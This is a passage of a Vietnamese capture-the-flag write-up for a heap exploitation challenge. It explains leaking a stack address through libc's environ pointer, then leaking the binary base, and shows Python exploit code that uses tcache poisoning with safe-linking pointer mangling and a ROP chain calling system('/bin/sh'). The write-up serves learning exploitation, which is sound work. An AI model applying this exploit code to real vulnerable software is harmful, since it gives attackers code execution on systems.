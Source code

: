 # Step3: leak stack và tính địa chỉ saved rip của main

thực hiện như trên bươc trên nhưng thay bằng địa chỉ environ-0x10 environ-0x10 là vì sau khi ta malloc ra thì ta cần ghi DATA vô nên thôi cứ -0x10 xong ta điền đủ 0x10 bytes vô rồi nối nó với địa chỉ stack là được,

``` python3 
add(0,0x20,b"A"*0x20)
add(1,0x20,b"A"*0x20)
free(0)
free(1)
payload=p64((heap+0x2f0)>>12^(libc.sym['environ']-0x10))
edit(1,payload)
add(0,0x20,b"A")
add(1,0x20,b"A"*0x10)
view(1)
p.recvuntil(b"A"*0x10)
stack=int.from_bytes(p.recv(6),"little")
log.info("[+]stack leak:"+hex(stack))
menu_rip=stack-0x170
main_rip=stack-0x120# main#rip-8
log.info("[+]menu:"+hex(menu_rip))
log.info("[+]main:"+hex(main_rip))
```
để tính địa chỉ saved rip của main thì cứ đặt break point ngay tại leave ret cuẩ main, xong chọn option 4 rồi lấy nó stack leak-saved_rip_main là ra.

# Step4 là tạo ROPCHAIN

thực hiện kỹ thuật như trên , ta thay đổi foward pointer chỉ đến saved_rip_main-8 để sao cho size của cái chunk đấy = 0 giống như environ ấy không có nó bằng 0x68182812 gì đấy rất to nó lại sinh ra lỗi,
. Và nhớ là lúc tạo chunk để free vô tcache thread thì tạo to một chút để khi malloc lại ta sẽ có đủ size của chunk để tạo ROPCHAIN, lúc đầu mình tạo chunk 0x20 nên không đủ chỗ,lúc sau sửa lại thành hai chunk 0x50 thì thành công pwned cái chall này .
OK đoạn cuối sẽ như sau:

```python3
add(0,0x50,b"A"*0x20)
add(1,0x50,b"A"*0x20)
free(0)
free(1)

payload=p64((heap+0x380)>>12^(main_rip-8))
edit(1,payload)

add(0,0x50,b"A"*0x20)
pop_rdi=libc.address+0x000000000002a3e5
ret=libc.address+0x0000000000029cd6
payload=flat(
	0,
	pop_rdi,next(libc.search(b"/bin/sh")),
	libc.sym['system']
	)
add(1,0x50,b"A"*0x18) # đoạn nay mình chưa tạo ROPCHAIN ngay mà padding đến địa chỉ có chứa exe address để tính exe base rồi thay rbp bằng địa chỉ hượp lệ để tránh lỗi
view(1)# leak exe
p.recvuntil(b"A"*0x18)
leak=int.from_bytes(p.recv(6),"little")
log.info('[+]exe leak:'+hex(leak))
exe.address=leak-0x13a2
rw_section=exe.address+0x5a00
payload=flat(rw_section,pop_rdi,next(libc.search(b"/bin/sh")),ret,libc.sym['system']+5)
```
